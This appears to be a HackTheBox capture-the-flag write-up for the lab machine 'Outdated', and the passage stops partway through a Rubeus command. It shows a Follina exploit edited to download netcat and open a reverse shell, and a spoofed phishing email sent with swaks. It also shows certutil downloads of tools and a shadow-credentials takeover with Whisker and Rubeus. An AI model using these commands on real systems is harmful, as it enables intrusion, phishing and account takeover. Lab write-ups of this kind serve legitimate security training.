





# Outdated - HackTheBox - Writeup
Linux, 30 Base Points, Medium



## Machine


 
## TL;DR

To solve this machine, we begin by enumerating open services using ```namp```.

***User 1***: Found PDF on SMB share, From the PDF we know that we need to use ```CVE-2022-30190 (folina)```, Sending mail with URL to folina to ```itsupport@outdated.htb``` and we get a reverse shell as ```btables```.

***User 2***: By running ```bloodhound``` we can see that we can use ```AddKeyCredentialLink``` This technique allows an attacker to take over an AD user or computer account if the attacker can modify the target object's (user or computer account) attribute ```msDS-KeyCredentialLink``` and append it with alternate credentials in the form of certificates, Using that we get the user ```sflowers````.

***Root***: Found ```wsus.outdated.htb``` with misconfiguration (Allow HTTP), Using ```SharpWSUS``` we create an update with ```PSExec.exe``` command that adds ```sflowers``` to local administrators group.




## Outdated Solution

### User 1

Let's start with ```nmap``` scanning:

```console
┌─[evyatar9@parrot]─[/hackthebox/Outdated]
└──╼ $ nmap -sV -sC -oA nmap/Outdated 10.10.11.175
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-04 00:44 IST
Nmap scan report for 10.10.11.175
Host is up (0.099s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-11-04 05:44:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-11-04T05:46:09+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after:  2024-06-18T06:00:24
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after:  2024-06-18T06:00:24
|_ssl-date: 2022-11-04T05:46:08+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-11-04T05:46:09+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after:  2024-06-18T06:00:24
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-11-04T05:46:08+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after:  2024-06-18T06:00:24
Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-11-04T05:45:30
|_  start_date: N/A

```

Let's enumerate the SMB share using ```smbclient```:

```console
┌─[evyatar9@parrot]─[/hackthebox/Outdated]
└──╼ $ smbclient -L outdated.htb
Enter WORKGROUP\user's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
	UpdateServicesPackages Disk      A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
	WsusContent     Disk      A network share to be used by Local Publishing to place published content on this WSUS system.
	WSUSTemp        Disk      A network share used by Local Publishing from a Remote WSUS Console Instance.
SMB1 disabled -- no workgroup available

```

We have access only to ```Shares```:
```console
┌─[evyatar9@parrot]─[/hackthebox/Outdated]
└──╼ $ smbclient \\\\outdated.htb\\Shares
Enter WORKGROUP\user's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jun 20 18:01:33 2022
  ..                                  D        0  Mon Jun 20 18:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 18:00:32 2022

		9116415 blocks of size 4096. 1733499 blocks available
smb: \> 
```

The PDF files contain the following content:



We can see the IT email ```itsupport@outdated.htb``` and we get also a list of relevant vulnerabilities.

We can try ```CVE-2022-30190 (Follina)``` - We can send an email to the IT team with the link to our DOC file.

From the ```nmap``` scan we can see SMTP port and the mail domain ```mail.outdated.htb```.

Let's use the following https://github.com/JohnHammond/msdt-follina](https://github.com/JohnHammond/msdt-follina) link to create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

We need to edit line 111 on the file ```folina.py``` to:
```python
command = f"""Invoke-WebRequest http://10.10.14.14/nc.exe -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc64.exe -e cmd.exe {serve_host} {args.reverse}"""
```

Run it:
```console
┌─[evyatar9@parrot]─[/hackthebox/Outdated]
└──╼ $ sudo python3 follina.py --interface tun0 --port 80 --reverse 4242
[+] copied staging doc /tmp/erku1ucf
[+] created maldoc ./follina.doc
[+] serving html payload on :80
[+] starting 'nc -lvnp 4242' 
listening on [any] 4242 ...

```

We need to copy ```nc64.exe``` to ```/tmp/erku1ucf/www/``` directory.

The next step is to send the link to the IT team email ```itsupport@outdated.htb```, We can do it using ```swaks``` as follows:
```console
┌─[evyatar9@parrot]─[/hackthebox/Outdated]
└──╼ $ swaks --to itsupport@outdated.htb --from SOC@0utdated.htb --server mail.outdated.htb --body "Is that your operation? http://10.10.14.14/"
=== Trying mail.outdated.htb:25...
=== Connected to mail.outdated.htb.
<-  220 mail.outdated.htb ESMTP
 -> EHLO parrot
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<SOC@0utdated.htb>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Sat, 05 Nov 2022 15:38:47 +0200
 -> To: itsupport@outdated.htb
 -> From: SOC@0utdated.htb
 -> Subject: test Sat, 05 Nov 2022 15:38:47 +0200
 -> Message-Id: <20221105153847.158526@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Is that your operation? http://10.10.14.14/
 -> 
 -> 
 -> .
<-  250 Queued (10.656 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.

```

And we get a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/Outdated]
└──╼ $ sudo python3 follina.py --interface tun0 --port 80 --reverse 4242
[+] copied staging doc /tmp/erku1ucf
[+] created maldoc ./follina.doc
[+] serving html payload on :80
[+] starting 'nc -lvnp 4242' 
listening on [any] 4242 ...

connect to [10.10.14.14] from (UNKNOWN) [10.10.11.175] 49857
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Users\btables\AppData\Local\Temp\SDIAG_1b264efd-c0a3-42ad-9c0c-68f55d82ff9b>whoami
outdated\btables
```

### User 2

Let's upload [SharpHound.exe](https://github.com/BloodHoundAD/SharpHound) to the machine and run it:
```console
C:\Users\btables\Downloads> certutil.exe -urlcache -f http://10.10.14.14:8000/SharpHound.exe SharpHound.exe
C:\Users\btables\Downloads>SharpHound.exe -c All --zipfilename output.zip
SharpHound.exe -c All --zipfilename output.zip
2022-11-05T21:34:36.5424664-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2022-11-05T21:34:41.1251084-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-11-05T21:34:42.0271646-07:00|INFORMATION|Initializing SharpHound at 9:34 PM on 11/5/2022
2022-11-05T21:34:52.0185214-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-11-05T21:34:54.7465030-07:00|INFORMATION|Beginning LDAP search for outdated.htb
2022-11-05T21:34:55.2985531-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-11-05T21:34:55.3100086-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-11-05T21:35:34.4840181-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2022-11-05T21:36:09.7805280-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2022-11-05T21:36:45.7503491-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2022-11-05T21:37:17.2379490-07:00|INFORMATION|Status: 4 objects finished (+4 0.02816901)/s -- Using 41 MB RAM
2022-11-05T21:37:22.6144261-07:00|INFORMATION|Consumers finished, closing output channel
2022-11-05T21:37:23.7209309-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2022-11-05T21:37:26.7404719-07:00|INFORMATION|Status: 97 objects finished (+93 0.6381579)/s -- Using 44 MB RAM
2022-11-05T21:37:26.7676577-07:00|INFORMATION|Enumeration finished in 00:02:32.0070266
2022-11-05T21:37:29.5435233-07:00|INFORMATION|Saving cache with stats: 56 ID to type mappings.
 58 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2022-11-05T21:37:30.1130369-07:00|INFORMATION|SharpHound Enumeration Completed at 9:37 PM on 11/5/2022! Happy Graphing!
C:\Users\btables\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9EA0-5B4E

 Directory of C:\Users\btables\Downloads

11/05/2022  09:37 PM    <DIR>          .
11/05/2022  09:37 PM    <DIR>          ..
11/05/2022  09:37 PM            11,964 20221105213715_output.zip
11/05/2022  09:37 PM             8,677 MjdhMDc5MjItNDk4MS00NjFiLWFkY2ItZjQ0ZTBlODI3Mzhh.bin
11/05/2022  09:34 PM         1,051,648 SharpHound.exe
               3 File(s)      1,072,289 bytes
               2 Dir(s)   9,404,518,400 bytes free

```

We can use the same ```nc64.exe``` to download the output or we can Base64 encode the file using ```certutil```:
```
C:\Users\btables\Downloads>certutil -encode 20221105213715_output.zip b64.txt
certutil -encode 20221105213715_output.zip b64.txt
Input Length = 11964
Output Length = 16508
CertUtil: -encode command completed successfully.

C:\Users\btables\Downloads>
```

By observing the output using ```bloodhound``` we can see the following:



To get ```sflowers``` user we need to use [AddKeyCredentialLink](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials), This technique allows an attacker to take over an AD user or computer account if the attacker can modify the target object's (user or computer account) attribute msDS-KeyCredentialLink and append it with alternate credentials in the form of certificates.

According to the link above, first, we need to upload the binaries ```Whisker.exe``` and ```Rubeus.exe```.

We can get the binaries from [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) and from [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master/PowerSharpBinaries](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/tree/master/PowerSharpBinaries) - we need to decompress ```Whisker``` using ```Invoke-Whisker.ps1```.

Let's upload the binaries to the target machine:
```console
C:\Users\btables\Downloads>certutil.exe -urlcache -f http://10.10.14.14:8000/Whisker.exe Whisker.exe
certutil.exe -urlcache -f http://10.10.14.14:8000/Whisker.exe Whisker.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\btables\Downloads>C:\Users\btables\Downloads>certutil.exe -urlcache -f http://10.10.14.14:8000/Rubeus.exe Rubeus.exe
certutil.exe -urlcache -f http://10.10.14.14:8000/Rubeus.exe Rubeus.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Next, we need to run ```Whisker.exe``` to add a new property as a new credential for ```sflowers``` user as follows:
```console
C:\Users\btables\Downloads>Whisker.exe add /target:sflowers
Whisker.exe add /target:sflowers
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password hXrbj8cXSRlDXanQ
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID aec8c25a-91bb-4027-9d40-91ed41cab8b0
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate: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 /password:"hXrbj8cXSRlDXanQ" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

```

We can see it creates the ```Rubeus``` command, Let's run it:
```console
C:\Users\btables\Downloads>Rubeus.exe asktgt /user:sflowers /certificate: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